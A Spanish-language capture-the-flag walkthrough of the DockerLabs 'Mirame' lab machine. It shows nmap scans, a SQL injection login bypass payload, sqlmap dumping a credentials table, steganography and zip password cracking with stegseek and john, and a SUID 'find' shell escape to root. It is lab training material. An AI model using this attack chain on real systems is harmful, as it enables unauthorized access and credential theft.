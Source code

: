 #MAQUINA #DOCKERLABS #FACIL
#SQLI 
#SQLMAP #STEGSEEK
<hr>

# RECONOCIMIENTO

Vamos a resolver **Mirame** de la plataforma **DockerLabs**.

   ```bash

Máquina desplegada, su dirección IP es --> 172.17.0.2

```

Primero vamos a hacer un escaneo de puertos rápido:

```bash

nmap -sS --min-rate 5000 -vvv -n -Pn -p- 172.17.0.2 --open
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-12-10 08:44 CET
Initiating ARP Ping Scan at 08:44
Scanning 172.17.0.2 [1 port]
Completed ARP Ping Scan at 08:44, 0.05s elapsed (1 total hosts)
Initiating SYN Stealth Scan at 08:44
Scanning 172.17.0.2 [65535 ports]
Discovered open port 80/tcp on 172.17.0.2
Discovered open port 22/tcp on 172.17.0.2
Completed SYN Stealth Scan at 08:44, 0.53s elapsed (65535 total ports)
Nmap scan report for 172.17.0.2
Host is up, received arp-response (0.0000040s latency).
Scanned at 2024-12-10 08:44:10 CET for 0s
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 64
80/tcp open  http    syn-ack ttl 64
MAC Address: 02:42:AC:11:00:02 (Unknown)

Read data files from: /usr/share/nmap
Nmap done: 1 IP address (1 host up) scanned in 0.69 seconds
           Raw packets sent: 65536 (2.884MB) | Rcvd: 65536 (2.621MB)


```

- **`--open`**: Muestra solo los puertos abiertos en la salida.
- **`-sS`**: Especifica un escaneo TCP SYN, que es más sigiloso que un escaneo de conexión completa.
- **`--min-rate 5000`**: Establece la tasa mínima de paquetes enviados a 5000 por segundo, haciendo que el escaneo sea más rápido.
- **`-vvv`**: Aumenta el nivel de verbosidad, proporcionando una salida más detallada durante el escaneo.
- **`-n`**: No resuelve DNS; esto evita retrasos por búsquedas de nombres.
- **`-Pn`**: Trata el objetivo como si estuviera en línea; omite el descubrimiento de hosts.
- **`-p-`**: Escanea todos los 65535 puertos en lugar de solo los más comunes.

**Conclusiones:** El ttl al ser 64 nos dice que es una máquina **Linux**. Además, vemos que tiene el puerto **80(HTTP)** y el puerto **22(SSH)** abiertos.

Ahora vamos a hacer un escaneo con mayor detalle:

   ```bash

nmap -sCV -p22,80 172.17.0.2                              
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-12-10 08:44 CET
Nmap scan report for pressenter.hl (172.17.0.2)
Host is up (0.000018s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u3 (protocol 2.0)
| ssh-hostkey: 
|   256 2c:ea:4a:d7:b4:c3:d4:e2:65:29:6c:12:c4:58:c9:49 (ECDSA)
|_  256 a7:a4:a4:2e:3b:c6:0a:e4:ec:bd:46:84:68:02:5d:30 (ED25519)
80/tcp open  http    Apache httpd 2.4.61 ((Debian))
|_http-title: Login Page
|_http-server-header: Apache/2.4.61 (Debian)
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.60 seconds



```

   ```bash

nmap --script="http-enum" 172.17.0.2
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-12-10 08:44 CET
Nmap scan report for pressenter.hl (172.17.0.2)
Host is up (0.0000030s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
MAC Address: 02:42:AC:11:00:02 (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 0.44 seconds

whatweb "http://172.17.0.2/"
http://172.17.0.2/ [200 OK] Apache[2.4.61], Country[RESERVED][ZZ], HTML5, HTTPServer[Debian Linux][Apache/2.4.61 (Debian)], IP[172.17.0.2], PasswordField[password], Title[Login Page]


```

- **`-sC`**: Realiza un escaneo de scripts (Nmap Scripting Engine, NSE). Esto permite ejecutar scripts de `nmap` para obtener información adicional sobre los servicios detectados, como vulnerabilidades, configuraciones o detalles específicos de los mismos.
- **`-sV`**: Realiza la detección de versiones de servicios. Esto intenta identificar la versión exacta del software que está escuchando en un puerto abierto, lo que puede ayudar a determinar si hay vulnerabilidades conocidas.
- **`--script`**:  Ejecutar un script específico.
# EXPLOTACION

Al revisar la web que hay en el puerto 80, vemos que hay un login. 
Al meter una contra cualquiera y meterle como usuario -> **a' or 1=1 -- -** , nos deja pasar, por lo que es vulnerable a un SQLI, vamos a automatizarlo usando **sqlmap**

   ```bash

sqlmap -u "http://172.17.0.2/" --batch --forms --dbs                      

available databases [5]:
[*] information_schema
[*] users

sqlmap -u "http://172.17.0.2/" --batch --forms -D users --tables

Database: users
[1 table]
+----------+
| usuarios |
+----------+

sqlmap -u "http://172.17.0.2/" --batch --forms -D users -T usuarios --dump

Database: users
Table: usuarios
[4 entries]
+----+------------------------+------------+
| id | password               | username   |
+----+------------------------+------------+
| 1  | chocolateadministrador | admin      |
| 2  | lucas                  | lucas      |
| 3  | soyagustin123          | agustin    |
| 4  | directoriotravieso     | directorio |
+----+------------------------+------------+



```

Tras probar las claves, ninguna parece funcionar. Pero, descubrimos que **directoriotravieso** es un directorio de la web.

Tenemos una foto que se llama mirame bien, tras usar exiftool y steghide no tenemos resultados.
Usamos **stegseek** para sacar la passphrase si es débil :

   ```bash

stegseek extract -sf miramebien.jpg -wl /usr/share/wordlists/rockyou.txt
StegSeek 0.6 - https://github.com/RickdeJager/StegSeek

[i] Found passphrase: "chocolate"
[i] Original filename: "ocultito.zip".
[i] Extracting to "miramebien.jpg.out".

   ```

El archivo se encuentra cifrado, asi que usaremos **john**:

   ```bash

zip2john miramebien.jpg.out > x
ver 1.0 efh 5455 efh 7875 miramebien.jpg.out/secret.txt PKZIP Encr: 2b chk, TS_chk, cmplen=28, decmplen=16, crc=703553BA ts=9D7A cs=9d7a type=0
                                                                                                                                                      

john x --show
miramebien.jpg.out/secret.txt:stupid1:secret.txt:miramebien.jpg.out::miramebien.jpg.out

1 password hash cracked, 0 left

   ```

Ahora lo unzipeamos con la password **stupid1**.

Tenemos credenciales -> **carlos:carlitos**

# ESCALADA PRIVILEGIOS

Buscamos archivos con permisos SUID:
   ```bash
carlos@38d071a389da:~$ find / -perm -4000 2>/dev/null 
/usr/bin/su
/usr/bin/find
/usr/bin/passwd
/usr/bin/chfn
/usr/bin/newgrp
/usr/bin/umount
/usr/bin/mount
/usr/bin/gpasswd
/usr/bin/chsh
/usr/bin/sudo
/usr/lib/mysql/plugin/auth_pam_tool_dir/auth_pam_tool
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
```

Vemos **find** con permisos SUID :
   ```bash

carlos@38d071a389da:~$ find . -exec /bin/sh -p \; -quit
# whoami
root
# 

```

**YA ESTAMOS COMO ROOT.**